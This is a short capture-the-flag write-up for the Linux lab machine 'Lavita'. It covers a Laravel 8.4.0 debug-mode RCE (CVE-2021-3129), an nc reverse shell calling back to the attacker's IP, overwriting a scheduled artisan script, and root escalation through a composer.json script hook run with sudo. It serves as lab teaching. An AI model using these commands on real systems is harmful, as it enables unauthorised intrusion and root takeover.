 # 🌱 Lavita (Linux)

> **Vector:** Laravel 8.4.0, Debug mode, PHP/Composer misconfig  
> _Difficulty: Intermediate_  
---

## 🔎 Initial Foothold

- Discovered `sitemap.xml` revealing the target runs **Laravel 8.4.0**.
- Tried public exploits without success. Registered a new user on the site, enabled debug, and then re-ran the [CVE-2021-3129](https://www.exploit-db.com/exploits/49424) exploit:
    ```bash
    python3 CVE-2021-3129.py
    # Payload to trigger reverse shell:
    nc -c /bin/sh 192.168.45.171 80
    ```
- Set up a listener on port 80 and received a reverse shell as the web user.
- Found multiple databases with the user `forge` and an exposed Redis service.
- Noted password hash: `$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi`

---

## 🧑‍💻 Privilege Escalation

- Ran `linpeas.sh` and saw user **skunk** has sudo privileges.
- Used `pspy` and noticed that **skunk** runs the PHP script `/var/www/html/lavita/artisan` on a schedule.
    - Crafted a PHP reverse shell, overwrote `artisan`, and caught a shell as `skunk`.
- Checked `sudo -l`: **skunk** can run `composer` as root without a password.
    - Overwrote `/var/www/html/lavita/composer.json` with:
        ```bash
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
        sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
        ```
    - This executed a root shell via composer.

---

**Key Takeaways:**  
- 📜 Enumerate files like `sitemap.xml` for tech versions.  
- 🐘 Leverage debug modes in frameworks (Laravel) for RCE.  
- 🧑‍💻 Sudo misconfigs + writable scripts = root.  
- ⚡ PHP/Composer "script" hooks can be used for escalation if root privileges are allowed.

---

**Security Note:**  
> Never expose debug or development settings in production, and always restrict sudoers to minimal, audited actions.